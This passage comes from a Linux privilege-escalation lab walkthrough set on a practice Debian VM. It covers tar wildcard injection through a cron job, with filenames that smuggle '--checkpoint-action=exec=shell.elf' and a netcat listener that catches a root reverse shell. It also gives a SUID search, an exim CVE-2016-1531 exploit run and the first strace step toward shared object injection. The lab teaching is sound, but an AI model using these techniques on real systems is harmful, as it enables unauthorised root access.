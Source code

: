 * When the tar command in the cron job runs, the wildcard (\*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

* Set up a __netcat__ listener on your Kali box on port __4444__ and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

```nc -nvlp 4444```

> __Remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:__

```bash
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf
```

---

* Answer the questions below
* Read and follow along with the above.

```No answere needed```


## Task 11: SUID / SGID Executables - Known Exploits

* Find all the SUID/SGID executables on the Debian VM:

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

> Note that __/usr/sbin/exim-4.84-3__ appears in the results. Try to find a known exploit for this version of exim. Exploit-DB, Google, and GitHub are good places to search!

* A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found on the Debian VM at __/home/user/tools/suid/exim/cve-2016-1531.sh__.

* Run the exploit script to gain a root shell:

```/home/user/tools/suid/exim/cve-2016-1531.sh```

> __Remember to exit out of the root shell before continuing!__

---

* Answer the questions below
* Read and follow along with the above.

```No answer needed```


## Task 12: SUID / SGID Executables - Shared Object Injection

* The __/usr/local/bin/suid-so__ SUID executable is vulnerable to shared object injection.

* First, execute the file and note that currently it displays a progress bar before exiting:

```/usr/local/bin/suid-so```

* Run __strace__ on the file and search the output for open/access calls and for "no such file" errors:

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"

```
